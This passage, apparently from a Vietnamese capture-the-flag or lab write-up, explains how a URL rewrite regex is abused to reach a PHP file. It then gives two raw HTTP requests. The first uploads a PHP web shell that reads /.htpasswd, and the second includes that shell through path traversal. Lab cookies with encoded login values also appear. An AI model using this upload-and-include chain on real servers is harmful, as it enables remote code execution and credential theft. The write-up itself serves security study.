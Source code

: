`/website-/usr/share/vulnx/shell/VulnX.php%3fVuln=X&a.doc`

ở đây ta thấy regex sẽ match tất cả chuỗi bắt đầu bằng `/website-` sau đó $1 sẽ là bất kì chuỗi nào nằm sau và kết thúc bằng .doc

Lúc này phần còn lại là `/usr/share/vulnx/shell/VulnX.php%3fVuln=X&a` được match lần đầu tiên nên $1 = `/usr/share/vulnx/shell/VulnX.php%3fVuln=X&a`

Và việc redirect sẽ dẫn đến `/usr/share/vulnx/shell/VulnX.php%3fVuln=X&a.html` lúc này phần đằng sau sẽ được coi như là một param và lược bỏ ta sẽ access đến `/usr/share/vulnx/shell/VulnX.php%3f`

### exploit

![image](https://hackmd.io/_uploads/SyTJPjclkl.png)

```
POST /website-/usr/share/vulnx/shell/VulnX.php%3fVuln=X&a.doc HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/website-/usr/share/vulnx/shell/VulnX.php%3fVuln=X&a.doc
Content-Type: multipart/form-data; boundary=---------------------------2778427660522729618720203579
Content-Length: 371
Origin: http://localhost
Connection: close
Cookie: COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; COMPANY_ID=10155; USER_UUID="jiImVDJvR9FvHsC9ILRngv9QY7WiCc4KxubG7TEzTpM="; LOGIN=6c6d616f40676d61696c2e636f6d; REMEMBER_ME=true; SCREEN_NAME=65304e4e5442436764486f7678336750624b676a43773d3d; ID=4b4432493933576971666767794e6e4a5a78463047773d3d; PASSWORD=4e6a69664a726f41724461424c6454534651486b54673d3d
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------2778427660522729618720203579
Content-Disposition: form-data; name="image"; filename="shell.html"
Content-Type: application/octet-stream

<?php system('cat /.htpasswd');?>

-----------------------------2778427660522729618720203579
Content-Disposition: form-data; name="Submit"

Upload
-----------------------------2778427660522729618720203579--
```

```
GET /admin.php%3fooo.php?pages=../../../../../usr/share/vulnx/shell/uploads/shell HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; COMPANY_ID=10155; USER_UUID="jiImVDJvR9FvHsC9ILRngv9QY7WiCc4KxubG7TEzTpM="; LOGIN=6c6d616f40676d61696c2e636f6d; REMEMBER_ME=true; SCREEN_NAME=65304e4e5442436764486f7678336750624b676a43773d3d; ID=4b4432493933576971666767794e6e4a5a78463047773d3d; PASSWORD=4e6a69664a726f41724461424c6454534651486b54673d3d
Upgrade-Insecure-Requests: 1
```